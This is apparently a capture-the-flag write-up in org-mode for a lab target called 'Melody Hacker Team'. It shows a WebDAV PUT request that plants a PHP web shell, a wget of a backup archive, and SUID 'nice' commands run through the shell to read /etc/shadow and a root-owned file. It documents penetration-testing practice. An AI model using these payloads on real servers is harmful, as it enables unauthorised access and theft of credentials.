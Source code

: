 #+title: Secureless
#+author: gabriel

* intro
You have a mission regarding the hacker group "Melody Hacker Team", whose activity has increased significantly recently. This group is known for unauthorized server access, DDoS and malware attacks.

Your objective is to gather detailed information about the group's activities and possible new cyber attack plans. You have access to the group's website. We trust you will succeed in this challenging task.

We wish you success!

* webdav vulnerable is running

/webdav found with feroxbuster

*payload to put a web shell bypassing authorization* ->
#+begin_src python
PUT /webdav/shell.php HTTP/1.1
Host: melodyhackerteam.hv
Content-Length: 28

<?php system($_GET['cmd']); ?>
#+end_src

*get the zip files* ->
:  wget http://melodyhackerteam.hv/webdav/web_shell_backup.zip

*finded SUID binary* ->
 #+begin_src sh
GET /webdav/shell.php?cmd=/usr/bin/nice /bin/sh -p -c 'cat ../../../etc/shadow'
 #+end_src

*telegram chat backup at /root* ->
: ?cmd=/usr/bin/nice /bin/sh -p -c 'cat ../../../root/telegram_chat_backup.txt'
